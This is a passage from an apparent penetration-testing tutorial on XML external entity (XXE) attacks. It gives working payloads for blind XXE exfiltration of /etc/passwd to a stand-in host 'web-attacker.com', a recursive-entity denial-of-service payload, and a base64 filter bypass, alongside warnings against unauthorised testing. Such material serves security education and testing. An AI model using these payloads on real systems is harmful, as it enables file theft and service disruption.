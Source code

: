 We can do this with burp suite intruder. We can ofcourse do exactly the same for directories making a small directory brute forcer for the IPs that we know resolve from the previous step. As with all automation you have to be very very careful as to not accidentally bring down your target. I recommend running this at 1 request per second at the very max. 

## Exploiting blind XXE

If we find blind XXE it's going to be a lot harder to test for systems that are on the internal network by sending them an HTTP request. After all, since we can not see the response we will never know which IPs resolve. It seems like this is game over for us but again looks can be deceiving. We can still exfiltrate data if we make a request to our server and include the file as a GET parameter. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

## Executing a DoS attack

Using XXE attacks, we can also cause an application level DoS (NOT DDoS!!) by spamming entities and declaring them recursively. The XML parser was not meant to deal with this much external entities and will be busy for a long time, preventing any normal user from getting their XML requests processed. This is especially true if these requests are sent in very large volumes. **Never test this if your target our client is not informed as this could bring down their environment. Especially never test this on a production  environment!**

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

# Bypasses

Sometimes our original XXE is filtered and we might need to bypass these filters. There are several techniques we can employ for this but we will go over 2 in this document and i encourage you to think of your own inspired by these. 

## BASE64

```xml

<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

